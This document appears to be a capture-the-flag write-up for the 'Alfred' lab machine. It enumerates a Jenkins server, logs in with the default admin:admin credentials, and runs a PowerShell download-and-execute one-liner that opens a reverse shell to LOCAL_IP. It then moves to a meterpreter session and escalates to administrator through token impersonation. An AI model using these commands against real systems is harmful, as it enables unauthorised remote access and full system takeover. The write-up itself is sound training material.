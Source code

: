 # Enumeration

We start by using autorecon to quickly enumerate the ports and services.
`autorecon 10.10.113.61`
![dd9a13071c8461374b509e37a2a4db10.png](/Alfred/_resources/dd9a13071c8461374b509e37a2a4db10-1.png)

For more details, we can either check the logs given by the autorecon output, or we can run nmap:
`nmap -T5 -sC -A --osscan-guess --version-all -Pn -p 80,3389,8080 10.10.113.61`
![d2a50d4cf74f5a244a7680b0df2a2150.png](/Alfred/_resources/d2a50d4cf74f5a244a7680b0df2a2150-1.png)

We find http running on port 80. Going to http://10.10.113.61 gives us:

![267168277d1f6e20a4463412e48bd9ae.png](/Alfred/_resources/267168277d1f6e20a4463412e48bd9ae-1.png)

Nothing notable appears in the page source. Navigating instead to 10.10.113.61:8080 gives a Jenkins login page:
 

![783d158db4d546b2ab0ee049ae1b578c.png](/Alfred/_resources/783d158db4d546b2ab0ee049ae1b578c-1.png)
 

Once again, the page source doesn't reveal much. Trying the default credentials admin:admin gets us into the Jenkins dashboard:
 

![a527de0ee349e6fcddcbed81db4914a8.png](/Alfred/_resources/a527de0ee349e6fcddcbed81db4914a8-1.png)
 

We're looking for a feature which allows us execute commands on the underlying system. At the bottom of the webpage, we see an active build named "project":
 

![099c38f39b1e062b9fc7d6a99fdb0aca.png](/Alfred/_resources/099c38f39b1e062b9fc7d6a99fdb0aca-1.png)
 

Navigating to the configuration settings for this project, we find the following relevant build step:
 

![df922b933258d49ab554fed97c44158e.png](/Alfred/_resources/df922b933258d49ab554fed97c44158e-1.png)
 

This looks promising! Notice that `whoami` is the default command listed here. We can verify that this works by navigating to the project homepage, clicking on "Build Now", and then viewing the console output for build #2:
 

![797385c50a81e61038bb31d4f5b2e491.png](/Alfred/_resources/797385c50a81e61038bb31d4f5b2e491-1.png)

![e97e8388278e65592a74888c08abfb87.png](/Alfred/_resources/e97e8388278e65592a74888c08abfb87-1.png)
 

<br>

# Exploitation

We will make use of the [reverse shell script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) provided in the exercise. We first set up a web server on port 9999:
 

![d135c1b5422b75eb6d5b67c8c0f4a092.png](/Alfred/_resources/d135c1b5422b75eb6d5b67c8c0f4a092-1.png)
 

Set up a netcat listener on a different port with ``nc -lvnp 8888`` then execute the following command

```ps
powershell iex (New-Object Net.WebClient).DownloadString('http://LOCAL_IP:9999/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress LOCAL_IP -Port 8888
```

using the feature we found in the enumeration phase. Our netcat listener will catch the reverse shell, giving us initial access to the machine.
 

![1572bfd20feeccdf3a2075f2160176fe.png](/Alfred/_resources/1572bfd20feeccdf3a2075f2160176fe-1.png)
 

Digging around, we eventually find the user.txt file in ``C:\Users\bruce\Desktop``.
 

![9ca6197a960a87ec9973d760e8b3c825.png](/Alfred/_resources/9ca6197a960a87ec9973d760e8b3c825-1.png)
 

Using ``type user.txt`` gives us our flag.

As part of Task 2, we are asked to switch to a meterpreter shell in order to facilitate easier privilege escalation. We generate an x86-64 reverse shell using msfvenom:
 

![00cf123b41d92301f44b5cc4ab6244ba.png](/Alfred/_resources/00cf123b41d92301f44b5cc4ab6244ba-1.png)
 

Note that this gives us the answer to the only question in Task 2. We download the .exe file on the target machine using the same technique used in Task 1. Now set up a handler in Metasploit with ``use exploit/multi/handler`` with the following options:
 

![e18242f0bff037e0f026b24a82b01662.png](/Alfred/_resources/e18242f0bff037e0f026b24a82b01662-1.png)
 

Now ``run``  to start the reverse TCP handler. On our target machine, we navigate to the directory containing our msfvenom payload and execute  ``Start-Process task2shell.exe`` . This gives us a meterpreter session:
 

![aeab9f9383a0bda9bdecac00b6f03c87.png](/Alfred/_resources/aeab9f9383a0bda9bdecac00b6f03c87-1.png)
 

(Note: The target IP is a bit different here, as I had to reset the machine.)

<br>

# Post-exploitation

With our upgraded meterpreter shell, we can now try to escalate privileges. The main technique used here is that of [token impersonation](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens). Start by using ``shell powershell`` within our meterpreter shell. Running ``whoami /priv`` gives us a list of privileges and their states:
 

![8c6e13bcd9ca329caaf95caf839ca559.png](/Alfred/_resources/8c6e13bcd9ca329caaf95caf839ca559-1.png)
 

Note that a few privileges are enabled. Exit out to meterpreter and use the incognito module, then use ``list_tokens -g`` to list all available delegation and impersonation tokens.
 

![d7e82c70ea426de69a6169973870ebb6.png](/Alfred/_resources/d7e82c70ea426de69a6169973870ebb6-1.png)
 

Since the BUILTIN\Administrators token is available, we can impersonate it:
 

![7f63634cce1c105e8dcc5fe64050eb8a.png](/Alfred/_resources/7f63634cce1c105e8dcc5fe64050eb8a-1.png)
 

Using ``getuid`` confirms that we have successfully impersonated the above user, which answers the third question of Task 3. Next, we want to migrate to a process with the correct permissions. Using ``ps`` gives us some possibilities:
 

![87307fc3f9141c3f191b71b29ed05ae4.png](/Alfred/_resources/87307fc3f9141c3f191b71b29ed05ae4-1.png)
 

Migrate to the services.exe process using `migrate 668`. This gives us the correct permissions. We can now `cd` into the config directory and `cat root.txt` to get the final flag. Alternatively, we can drop into a shell and `type root.txt`.
 

![8cc2de1e9c169473bb79a83fc6ca9c81.png](/Alfred/_resources/8cc2de1e9c169473bb79a83fc6ca9c81-1.png)
 

